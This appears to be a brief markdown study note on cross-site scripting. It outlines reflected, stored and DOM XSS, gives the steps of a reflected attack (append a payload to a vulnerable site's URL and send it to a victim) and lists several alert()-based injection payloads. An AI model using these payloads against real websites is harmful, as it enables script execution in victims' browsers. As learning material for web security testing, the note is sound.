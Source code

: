 # Type
1. Relfected XSS
2. Store XSS
3. DOM XSS

- Reflected XSS:
    - Tatics: make attacker's JS code run on victims browser
    - Technique: Create payload and combine it to url of vuln website, send that URL to victim
    - Procedures: use burpsuite, inspect tool, ... to test payload, add payload to URL

# Payload

1. `<img src=1 onerror=alert()>`
2. `" onfocus="alert()`
3. `onload="this.src+=<img src=1 onerror=alert()>`
4. Anything put inside href use this payload `javascript:alert()`
5. `'-alert(1)-' or `'; alert();'`
